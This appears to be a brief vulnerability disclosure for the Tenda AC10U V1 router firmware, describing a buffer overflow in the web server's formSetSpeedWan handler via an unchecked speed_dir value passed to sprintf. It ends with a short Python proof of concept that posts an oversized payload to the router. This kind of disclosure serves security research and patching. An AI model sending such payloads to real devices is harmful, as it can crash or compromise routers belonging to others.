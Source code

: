 # buffer overflow

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a buffer overflow in httpd/formSetSpeedWan

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](13.png)

get value from speed_dir, then call sprintf, cause buff overflow





## POC
```
url = "http://192.168.1.13/goform/formSetSpeedWan"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'speed_dir': payload})
``` 
